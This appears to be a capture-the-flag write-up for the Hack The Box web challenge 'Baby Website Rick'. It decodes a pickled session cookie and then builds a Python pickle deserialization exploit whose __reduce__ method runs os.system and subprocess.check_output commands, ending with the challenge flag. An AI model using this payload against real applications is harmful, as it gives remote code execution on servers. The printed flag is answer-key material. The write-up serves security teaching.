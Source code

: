 # Baby Website Rick

## Analysis

![](<../../../../.gitbook/assets/image (6).png>)

All the references to **pickles** implies it's an **insecure deserialization** challenge. [`pickle`](https://docs.python.org/3/library/pickle.html) is a serialization format used in python.

If we check the cookies, we get the following:

```
plan_b=KGRwMApTJ3NlcnVtJwpwMQpjY29weV9yZWcKX3JlY29uc3RydWN0b3IKcDIKKGNfX21haW5fXwphbnRpX3BpY2tsZV9zZXJ1bQpwMwpjX19idWlsdGluX18Kb2JqZWN0CnA0Ck50cDUKUnA2CnMu
```

Our guess is that this is a pickled python object, and decoding the base64 seems to imply that to us too:

```
$ echo 'KGRwMApTJ3NlcnVtJwpwMQpjY29weV9yZWcKX3JlY29uc3RydWN0b3IKcDIKKGNfX21haW5fXwphbnRpX3BpY2tsZV9zZXJ1bQpwMwpjX19idWlsdGluX18Kb2JqZWN0CnA0Ck50cDUKUnA2CnMu' | base64 -d
(dp0
S'serum'
p1
ccopy_reg
_reconstructor
p2
(c__main__
anti_pickle_serum
p3
c__builtin__
object
p4
Ntp5
Rp6
s.
```

## Unpickling

Let's immediately try to unpickle the data, which should give us a feel for how data is parsed:

```python
from base64 import b64decode

import pickle

code = b'KGRwMApTJ3NlcnVtJwpwMQpjY29weV9yZWcKX3JlY29uc3RydWN0b3IKcDIKKGNfX21haW5fXwphbnRpX3BpY2tsZV9zZXJ1bQpwMwpjX19idWlsdGluX18Kb2JqZWN0CnA0Ck50cDUKUnA2CnMu'

serum = pickle.loads(b64decode(code))
print(serum)
```

```
$ python3 deserialize.py 
Traceback (most recent call last):
  File "deserialize.py", line 7, in <module>
    serum = pickle.loads(b64decode(code))
AttributeError: Can't get attribute 'anti_pickle_serum' on <module '__main__' from 'deserialize.py'>
```

The error is quite clear - there's no `anti_pickle_serum` variable. Let's add one in and try again.

```python
code = b'KGRwMApT[...]'
anti_pickle_serum = 'test'
```

That error is fixed, but there's another one:

```
$ python3 deserialize.py 
Traceback (most recent call last):
  File "deserialize.py", line 8, in <module>
    serum = pickle.loads(b64decode(code))
  File "/usr/lib/python3.8/copyreg.py", line 43, in _reconstructor
    obj = object.__new__(cls)
TypeError: object.__new__(X): X is not a type object (str)
```

Here it's throwing an error because X (`anti_pickle_serum`) **is not a type object** - so let's make it a class extending from `object`!

```python
# [imports]
class anti_pickle_serum(object):
    def __init__(self):
        pass
# [...]
```

And now there's no error, and we get a response!

```
$ python3 deserialize.py 
{'serum': <__main__.anti_pickle_serum object at 0x7f9e1a1b1c40>}
```

So the cookie is the pickled form of a dictionary with the key `serum` and the value of an `anti_pickle_serum` class! Awesome.

## Exploitation

For an introduction to pickle exploitation, I highly recommend [this blog post](https://davidhamann.de/2020/04/05/exploiting-python-pickle/). Essentially, the `__reduce__` dunder method tells pickle how to deserialize, and to do so it takes a **function** and a **list of parameters**. We can set the function to `os.system` and the parameters to the code to execute!

```python
from base64 import b64encode

import pickle
import os

class anti_pickle_serum(object):
    def __reduce__(self):               # function called by the pickler
        return os.system, (['whoami'],)

code = pickle.dumps({'serum': anti_pickle_serum()})
code = b64encode(code)
print(code)
```

Here we create the malicious class, then serialize it as part of the dictionary as we saw before.

```
$ python3 final.py 
b'gASVLAAAAAAAAAB9lIwFc2VydW2UjAVwb3NpeJSMBnN5c3RlbZSTlIwGd2hvYW1plIWUUpRzLg=='
```

Huh, that looks nothing like the original cookie value (which starts with `KGRwMApTJ3`)... maybe we missed something with the `dumps`?

Checking out the [`dumps()`](https://docs.python.org/3/library/pickle.html#pickle.dumps) documentation, there is a `protocol` parameter! If we [read a bit deeper](https://docs.python.org/3/library/pickle.html#data-stream-format), this can take a value from `0` to `5`. If we play around, `protocol=0` looks similar to the original cookie:

```python
code = pickle.dumps({'serum': anti_pickle_serum()}, protocol=0)
```

```
$ python3 final.py 
b'KGRwMApWc2VydW0KcDEKY3Bvc2l4CnN5c3RlbQpwMgooVndob2FtaQpwMwp0cDQKUnA1CnMu'
```

Let's change the cookie to this (without the `b''`):

![](<../../../../.gitbook/assets/image (15).png>)

As you can see now, the value `0` was returned. This is the return value of `os.system`! Now we simply need to find a function that returns the result, and we'll use `subprocess.check_output` for that.

{% hint style="danger" %}
For reasons unknown to me, python3 pickles this differently to python2 and doesn't work. I'll therefore be using python2 from now on, but if anybody know why that would happen, please let me know!
{% endhint %}

```python
return subprocess.check_output, (['ls'],)
```

Now run it

```
$ python final.py 
KGRwMApTJ3NlcnVtJwpwMQpjc3VicHJvY2VzcwpjaGVja19vdXRwdXQKcDIKKChscDMKUydscycKcDQKYXRwNQpScDYKcy4=
```

And input it as the cookie.

![](<../../../../.gitbook/assets/image (43).png>)

As can now see that there is a `flag_wIp1b` file, so we can just read it!

While it's tempting to do

```python
return subprocess.check_output, (['cat flag_wIp1b'],)
```

`subprocess.check_output` requires a **list** of parameters (as we see here) and the filename is a separate item in the list, like so:

```python
return subprocess.check_output, (['cat', 'flag_wIp1b'],)
```

```
$ python final.py 
KGRwMApTJ3NlcnVtJwpwMQpjc3VicHJvY2VzcwpjaGVja19vdXRwdXQKcDIKKChscDMKUydjYXQnCnA0CmFTJ2ZsYWdfd0lwMWInCnA1CmF0cDYKUnA3CnMu
```

And boom - we get the flag!

![](<../../../../.gitbook/assets/image (33).png>)

`HTB{g00d_j0b_m0rty...n0w_I_h4v3_to_g0_to_f4m1ly_th3r4py..}`
